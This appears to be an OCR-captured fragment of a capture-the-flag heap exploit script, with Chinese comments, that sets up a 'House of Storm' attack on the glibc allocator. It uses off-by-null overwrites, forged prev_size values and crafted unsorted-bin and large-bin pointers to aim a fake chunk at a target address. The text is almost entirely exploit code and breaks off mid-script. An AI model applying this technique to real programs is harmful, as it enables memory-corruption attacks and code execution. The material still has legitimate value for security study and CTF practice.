 	add(0x18)#3
	add(0x508)#4
	add(0x18)#5
	
	add(0x18)#6
	
	
	#dbg()
	#构造两个伪造的prev_size，用于绕过malloc检查，保护下一个chunk的prev_size不被修改。
	edit(1,'a'*0x4f0+p64(0x500)) 
	edit(4,'a'*0x4f0+p64(0x500)) 
	
	#dbg()
	#----------------准备 unsorted chunk-----------------------#
	free(1)
	edit(0,'a'*0x18)#off-by-null改写chunk1的size为0x500
	
	#dbg()
	
	add(0x18)#1
	add(0x4d8)#7  
	
	free(1)
	free(2)    
	
	#dbg()
	
	#recover
	add(0x30)#1 此时chunk7可以控制原 （unsortedbin chunk  0x4f1）的bk指针
	add(0x4e0)#2
	#-------------------准备 large chunk-----------------------------------#
	#dbg()
	#下面同理获得chunk8可以控制原 （largebin chunk 0x4e1 ）的bk指针和bk_nextsize指针
	free(4)
	edit(3,'a'*0x18)#off by null
	add(0x18)#4
	add(0x4d8)#8 0x5a0
	free(4)
	free(5)
	add(0x40)#4 0x580
	
	 #---------------unsorted chunk 和 large chunk 放到对应位置----------------------#
	free(2)    #unsortedbin-> chunk2 -> chunk5(chunk8)(0x5c0)    which size is largebin FIFO
	 
	#dbg()
	#
	add(0x4e8)      # put chunk8(0x5c0) to largebin
	
	#dbg()
	
	free(2) #put chunk2 to unsortedbin
	
	#dbg()
	 #--------------修改他们是的满足条件进行 house of strom------------------------------#
	target = 0xabcd0100
	fake_chunk = target - 0x20
	
	payload = p64(0)*2 + p64(0) + p64(0x4f1) # size
	payload += p64(0) + p64(fake_chunk)      # bk
	edit(7,payload)
	